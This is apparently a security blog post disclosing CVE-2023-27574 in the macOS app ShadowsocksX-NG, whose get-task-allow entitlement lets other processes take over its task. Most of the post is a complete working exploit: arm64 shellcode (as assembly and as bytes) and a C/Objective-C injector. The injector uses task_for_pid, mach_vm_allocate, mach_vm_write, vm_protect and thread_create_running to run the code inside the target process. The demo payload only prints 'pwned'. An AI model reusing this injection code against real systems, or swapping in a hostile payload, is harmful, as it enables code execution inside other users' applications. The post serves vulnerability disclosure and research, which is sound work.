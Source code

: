 ```yaml
---
title: CVE-2023-27574 - Shadowsocks-NG code execution
description: Exploiting get-task-allow for code execution
date: 2023-03-05T13:45:06.348045+01:00
toc: true
tags:
    - cve
    - vuln
    - reverse-engineering
refs:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27574
    - https://github.com/shadowsocks/ShadowsocksX-NG
    - https://shadowsocks.org
draft: false
---
```


# Introduction

Recently, I started playing a bit with different methods of code injection inside the MacOS applications. 
The version of  [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG/releases/tag/v1.10.1) prior to `v1.10.1` has `com.apple.security.get-task-allow` entitlement.

This entitlement allows other processes to obtain the applications task. Obtaining the task means you can do with the process everything you want(code execution, memory read/write etc).

At the end of this post, we will be exploiting this to write `pwned` text to the STDOUT of the application. Nothing fancy about it, just demonstrates the  usage of mach API and a bit of shellcoding for arm64.

We will utilize mach vm API with the `thread_create_running` to execute our shellcode on macOS Ventura running on M1 using arm64 architecture.

# Analysis

Application [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG) is MacOS client for the original shadowsocks. Shadowsocks is a tool that helps to circumvent firewalls.

To view the entitlements, we can use `codesign -dv --entitlements :- /path/to/the/binary`

```bash
$ codesign -d --entitlements :- /Applications/ShadowsocksX-NG.app/Contents/MacOS/ShadowsocksX-NG 2> /dev/null | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>com.apple.security.get-task-allow</key>
    <true/>
  </dict>
</plist>
```

We can see that the application has only entitlement, and it is `com.apple.security.get-task-allow`. 

# Mach VM API

We will utilize mach vm api to exploit the entitlement:  
* `task_for_pid` - to obtain the task for the process id of ShadowsocksX-NG  
* `mach_vm_allocate` - to allocate the space inside the process  
* `mach_vm_write` - to write our shellcode inside the allocated space  
* `vm_protect` - to enable executing allocated space
* `thread_create_running` - to run our shellcode inside the process space in a new thread

The exploitation steps are:

1. obtain the pid
2. try to get applications task
3. allocate space for the shellcode
4. allocate space for the stack
5. write shellcode
6. give execute permission at the shellcode address
7. create new thread
8. execute thread

```nasm
.global _main
.align 4

_main:
        mov x0, #1

        mov x4, #0x7770                         ; write wp
        movk x4, #0x656e, lsl #16       ; write en
        movk x4, #0x0a64, lsl #32       ; write \nd
        str x4, [sp, #-8]
        mov x5, #8
        sub x1, sp, x5  

        mov x2, #6 ; length
        mov x16, #0x4
        svc #0x80

        mov x0, #6 ; exit status call
        mov x16, #1
        svc #0xffff
```

Full exploit source code:  
```c
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <ptrauth.h>

#define STACK_SIZE 65536
#define CODE_SIZE 124

extern kern_return_t mach_vm_allocate(task_t task, mach_vm_address_t *addr, mach_vm_size_t size, int flags);
extern kern_return_t mach_vm_read(vm_map_t target_task, mach_vm_address_t address, mach_vm_size_t size, vm_offset_t *data, mach_msg_type_number_t *dataCnt);
extern kern_return_t mach_vm_write(vm_map_t target_task, mach_vm_address_t address, vm_offset_t data, mach_msg_type_number_t dataCnt);

char shellCode[] = "\x20\x00\x80\xd2\x04\xee\x8e\xd2\xc4\xad\xac\xf2\x84\x4c\xc1\xf2\xe4\x83\x1f\xf8\x05\x01\x80\xd2\xe1\x63\x25\xcb\xc2\x00\x80\xd2\x90\x00\x80\xd2\x01\x10\x00\xd4\xc0\x00\x80\xd2\x30\x00\x80\xd2\xe1\xff\x1f\xd4\x01\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x02\x00\x00\x00\x80\x3f\x00\x00\x34\x00\x00\x00\x34\x00\x00\x00\xb5\x3f\x00\x00\x00\x00\x00\x00\x34\x00\x00\x00\x03\x00\x00\x00\x0c\x00\x01\x00\x10\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00";

pid_t getShadowPID() {
    NSString * appPID = @"com.qiuyuzhou.ShadowsocksX-NG";
    NSArray<NSRunningApplication *> *runningShadowsocks = [NSRunningApplication runningApplicationsWithBundleIdentifier:appPID];
    
    if (runningShadowsocks == nil || [runningShadowsocks count] == 0) {
        printf("[!] Exploit failed!\n");
        exit(-1);
    }
    
    NSRunningApplication *ShadowsocksX_NG = runningShadowsocks[0];
    pid_t shadowPID = [ShadowsocksX_NG processIdentifier];
    
    return shadowPID;
}

int main(int argc, const char * argv[]) {
    pid_t shadowPID = getShadowPID();
    
    task_t remoteTask;
    kern_return_t kr = task_for_pid(current_task(), shadowPID, &remoteTask);
    
    if (kr != KERN_SUCCESS) {
        printf("[!] Failed to get ShadowsocksX-NG's task: %s\n", mach_error_string(kr));
        exit(-2);
    } else {
        printf("[+] ShadowsocksX-NG's task successfully taken over: %d\n", remoteTask);
    }

    mach_vm_address_t remoteStack = (vm_address_t)NULL;
    mach_vm_address_t remoteCode = (vm_address_t)NULL;

    kr = mach_vm_allocate(remoteTask, &remoteStack, STACK_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated stack at: 0x%llx\n", remoteStack);
    }

    kr = mach_vm_allocate(remoteTask, &remoteCode, CODE_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated code at: 0x%llx\n", remoteCode);
    }

    kr = mach_vm_write(remoteTask, remoteCode, (vm_address_t)shellCode,CODE_SIZE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to write code: %s\n", mach_error_string(kr));
    } else {
        printf("written code at: 0x%llx\n", remoteCode);
    }

    kr  = vm_protect(remoteTask, remoteCode, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

    remoteStack += (STACK_SIZE / 2);

    task_flavor_t flavor = ARM_THREAD_STATE64;
    mach_msg_type_number_t count = ARM_THREAD_STATE64_COUNT;

    arm_thread_state64_t state;

    state.__pc = (uintptr_t)remoteCode;
    state.__sp = (uintptr_t)remoteStack;

    thread_act_t thread;
    kr = thread_create_running(remoteTask, flavor, (thread_state_t)&state, count, &thread);

    if (kr != KERN_SUCCESS) {
        printf("error spawning thread: %s\n", mach_error_string(kr));
    } else {
        printf("done\n");
    }

    return 0;
}
```


![Running exploit](../images/shadow_run.png)